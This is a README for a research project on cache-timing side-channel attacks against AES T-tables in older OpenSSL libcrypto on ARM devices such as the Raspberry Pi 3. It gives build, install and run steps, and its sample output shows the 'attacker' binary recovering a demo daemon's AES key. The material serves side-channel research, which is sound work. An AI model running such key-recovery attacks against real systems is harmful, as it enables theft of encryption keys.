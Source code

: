 # side-channel-attack

side-channel-attack

# Contents
1. [How to build - armv7](#1-how-to-build---armv7)
2. [How to build - armv8](#2-how-to-build---armv8)
3. [How to install to your device](#3-how-to-install-to-your-device)
4. [How to run one-round-attack - rpi3 (armv8)](#4-how-to-run-one-round-attack---rpi3-armv8)
5. [How to run last-round-attack - rpi3 (armv8)](#5-how-to-run-last-round-attack---rpi3-armv8)
6. [Supported attack for each arch](#6-supported-attack-for-each-arch)

# License

* © 2017 Jinbum Park
* jinb.park@samsung.com

# 1. How to build - armv7

* Build all
    ```
	$ vim build_armv7.sh  ==> apply your cross compiler to SCA_CROSS_COMPILER
    $ ./build_armv7.sh
    ```

# 2. How to build - armv8

* Build all
    ```
	$ vim build_armv8.sh  ==> apply your cross compiler to SCA_CROSS_COMPILER
    $ ./build_armv8.sh
    ```

# 3. How to install to your device

* Copy and install shared library
    ```
    $ cp -f build/lib/libcrypto.so.[version] usb/   ==> on your host
    
    $ cp -f usb/libcrypto.so.[version] /usr/lib/   ==> on target device
	==> libcrypto.so.0.9.8 for armv7, libcrypto.so.1.0.0 for armv8
    ```

* Copy and install attack binaries
    ```
    $ cp -f build/cache-attack/one-round-attack/real-security-daemon/* usb/  ==> on your host
    
    $ cp -f usb/* /usr/bin/  ==> on target device.
    ```

# 4. How to run one-round-attack - rpi3 (armv8)

* Get T-table address from openssl library (on your host)
	```
	$ nm libcrypto.so.1.0.0 | grep Te0
	  0000000000170090 r Te0
	$ nm libcrypto.so.1.0.0 | grep Te1
	  000000000016fc90 r Te1
	==> repeat for Te2, Te3..
	```

* Run one-round-attack on rpi3
	```
	$ ./security_daemon &
	  root@RPi3:/aes security_daemon is running...
	  real key : a2981898c47187538cde1709dbd9ab40
	$ ./attacker
	  USAGE : ./attacker <limit plain text count> <repeat count for a plaintext> <cpu cycle threshold> <offset te0> <offset te1> <offset te2> <offset te3>
	  EXAMPLE : ./attacker 1000 1 200 0010dca8 0010e0a8 0010e4a8 0010d8a8
	$ ./attacker 500 1 200 00170090 0016fc90 00170890 00170490
	  security_daemon_connect success
	  plain_text_cnt : 500
	  calculating all subsets...
	  progress : 4096 / 2048000
	  progress : 8192 / 2048000
	  .......
	  ....... 
	  predict key : a0901090c070805080d01000d0d0a040
	  Recover [64] bits success!!   ====>  It's result of attack!!!
	  security_daemon is closing...
	  [1]+  Done                       ./security_daemon
	```

# 5. How to run last-round-attack - rpi3 (armv8)

* Get T-table, rcon address from openssl library (on your host)
	```
	$ nm libcrypto.so.1.0.0 | grep Te0
	  0000000000170090 r Te0
	==> repeat for Te1, Te2, Te3, rcon
	```

* Run last-round-attack on rpi3
	```
	$ ./security_daemon &
	  root@RPi3:/aes security_daemon is running...
	  real key : a2981898c47187538cde1709dbd9ab40
	$ ./attacker
	  USAGE : ./attacker <limit plain text count> <cpu cycle threshold> <offset te0> <offset te1> <offset te2> <offset te3> <offset rcon>
	  EXAMPLE : ./attacker 1000 200 0010c0b8 0010c4b8 0010c4c8 0010c4d8 0010c4e8
	$ ./attacker 500 200 00170090 0016fc90 00170890 00170490 00170c90
	  progress : 0 / 500
	  progress : 20 / 500
	  ......
	  ......
	  progress : 480 / 500
	  predict last round key : 9886c881cad8676e0f01eb4a30df89f5  ==> finish to get last round key
	  invert round key!!  ==> try to invert from last round key to real key (0 round key)
	  first key : a2981898c47187538cde1709dbd9ab40
	  predict key : a2981898c47187538cde1709dbd9ab40
	  ......
	  real key : a2981898c47187538cde1709dbd9ab40
	  predict key : a2981898c47187538cde1709dbd9ab40
	  Recover [16] byte success!! ==> It's result of attack!!
	```

# 6. Supported attack for each arch

* one-round-attack is enable on both armv7 and armv8.
* last-round-attack is enable on both armv7 and armv8.



